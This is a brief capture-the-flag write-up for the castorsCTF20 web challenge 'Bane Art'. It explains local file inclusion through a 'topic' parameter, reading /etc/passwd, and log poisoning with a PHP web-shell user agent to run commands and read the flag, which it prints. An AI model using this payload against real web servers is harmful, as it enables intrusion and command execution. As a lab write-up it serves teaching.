 ```yaml
---
type: "post"
title: "Bane Art"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "web", "castorsCTF20"]
---
```


When we inspect the site we can see it uses `topic` param for getting the topig.
And it looks like it includes the topic file. But can we use it for LFI? YES!
We can test it with setting `topic` to `/etc/passwd`.

With changing our user agent to `<?php system($_GET['cmd']);?>` and reading
`/var/log/apache2/access.log` file we can execute any command we want using
`CMD` param. Then with setting `CMD` to `ls -Rla` we can see flag is inside
`/home/falg/flag/test/why/the/hassle/right/flag.txt`. And changing `CMD` to
`cat /home/falg/flag/test/why/the/hassle/right/flag.txt` we can get the flag

**Flag:** `castorsCTF{w3lc0m3_2_D4_s0urc3_YoUng_Ju4n}`

